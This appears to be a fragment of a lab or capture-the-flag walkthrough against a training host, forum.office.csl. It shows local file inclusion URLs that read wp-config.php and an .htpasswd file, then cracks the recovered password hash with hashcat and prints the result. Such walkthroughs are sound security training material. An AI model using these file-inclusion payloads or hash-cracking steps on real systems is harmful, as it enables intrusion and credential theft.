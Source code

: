 ```text
view-source:http://forum.office.csl/chatlogs/chatlogs.php?file=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```

![](../.gitbook/assets/8239c4e26f2b491db56b2b9367ac1060.png)

```text
wp_user:password
```

### NO ID\_RSA OF USERS

### LOGIN.PHP

```text
view-source:http://forum.office.csl/chatlogs/chatlogs.php?file=php://filter/convert.base64-encode/resource=/var/www/html/forum/login/login.php
```

??? CODE IN LOGIN.PHP

```text
integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
```

### FORUM/.HTPASSWD

```text
view-source:http://forum.office.csl/chatlogs/chatlogs.php?file=/var/www/html/forum/.htpasswd
```

#### CREDS

```text
dwight:$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/
```

## CRACKING HASH WITH HASHCAT

```text
echo '$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/' > hash
```

```text
hashcat -m 1600 hash /opt/passwd/rockyou.txt
```

```text
$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/:cowboys1
```
